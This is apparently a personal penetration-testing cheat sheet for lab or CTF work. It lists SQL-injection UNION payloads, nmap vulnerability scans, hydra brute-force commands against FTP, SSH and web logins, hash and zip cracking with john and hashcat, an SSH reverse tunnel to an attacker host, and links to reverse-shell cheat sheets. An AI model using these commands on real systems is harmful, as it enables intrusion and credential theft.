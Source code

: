 # Configuring new machine
Apt-get update && apt-get upgrade <br />
Apt-get dist-upgrade <br />
### Installing rdp
Apt-get install xrdp<br /><br />
After xrdp is installed you can start the server with the following command:<br />
Service xrdp start<br />
Service xrdp-sesman start <br />
update-rc.d xrdp enable <br />

### Install Terminator
sudo apt-get install terminator


### XSS
Cheatsheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### SQL Injection
Cheatsheet: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
' UNION select 1 from information_schema.tables # <br />
' UNION select 1,2 from information_schema.tables #<br />
' UNION select 1,2,3 from information_schema.tables #

' UNION select 1,table_schema,table_name from information_schema.tables #
' UNION select 1,table_name,column_name from information_schema.columns #
### Nmap
Scan for vulnerabilities: nmap -Pn --script vuln 10.x.x.x
nmap --script http-enum -p 80 xx.xx.xx.xx  <br />

- nmap -sC -sV -Av -oN nmap/anthem 10.10.139.243

-sC - run all the default scripts
-sV - find the version of all the service running on the target
-A - run the scan in aggressive mode
-v - show output in verbose mode
### RSA
https://github.com/ius/rsatool<br />
https://github.com/Ganapati/RsaCtfTool

### SSH
https://medium.com/bugbountywriteup/cracking-ssh-private-key-passphrase-459ba17e8d5d

- scp name@ip:/home/dir/file.name $(pwd)   - dowloading file from ssh
### SSH tunelling
 - netstat -tulpn - what services are running
 - ssh -R 9001:127.0.0.1:9001 attacker@<attacker_ip>
### HASH
Identify hashes: https://hashes.com/en/tools/hash_identifier<br />
- https://www.tunnelsup.com/hash-analyzer/
Tool to identify hashes: https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master <br />
- *wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py*<br /> 
- *python3 hash-id.py*
- https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/
- john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
- hashcat -m 1410 -a 0 hash:salt --username test_user /usr/share/wordlists/rockyou.txt - sha256 with salt
- https://medium.com/infosec-adventures/identifying-and-cracking-hashes-7d580b9fd7f1
- https://gchq.github.io/CyberChef/
### Active Directory
PowerView-3.0 tips and tricks https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

### Ghostcat
https://github.com/00theway/Ghostcat-CNVD-2020-10487

### Steganogrphy
- https://pequalsnp-team.github.io/cheatsheet/steganography-101 <br />
- https://github.com/DominicBreuker/stego-toolkit
- https://en.wikipedia.org/wiki/List_of_file_signatures
- binwalk -e file
- foremost -i file : extracts data from the given file.
- steghide extract -sf regular_image.jpeg

### Java Deserialization Vulnerabilities
https://github.com/joaomatosf/jexboss

### commands
sudo -l -U user <br />
https://gtfobins.github.io/

### Shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  <br />
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

 enumeration start with “sudo -l -l” 
 If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. If a command is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments. If command is specified but not allowed, sudo will exit with a status value of 1. If the -l option is specified with an l argument (i.e. -ll), or if -l is specified multiple times, a longer list format is used. 
 
 -https://netsec.ws/?p=337 - interactive tty
 python3 -c 'import pty;pty.spawn("/bin/bash")'

### command injection 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md

 ### Gobuster
  - gobuster dir -u xxx.xx.x.x -w /usr/share/wordlists/dirb/common.txt   
  - gobuster dir -u xxx.xx.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
### other
Enable or disable protocols, ciphers, hashes and key exchange algorithms on Windows Server 2008, 2012, 2016 and 2019 : https://www.nartac.com/Products/IISCrypto


### brutforce
#### FTP & SSH
- hydra -l username ftp://xxxxxxxxx -P /usr/share/wordlists/rockyou.txt   
- hydra -l username -v -V -P /usr/share/wordlists/rockyou.txt xxx.xx.xx.xx ssh

#### web
hydra -l <username> -P <wordlist> xxx.xxx.xx.xx http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

#### zip files
- zip2john zipName.zip >zip.hash  - for john friendly hash
- john zipName.zip zip.hash

### process snooping
https://github.com/DominicBreuker/pspy
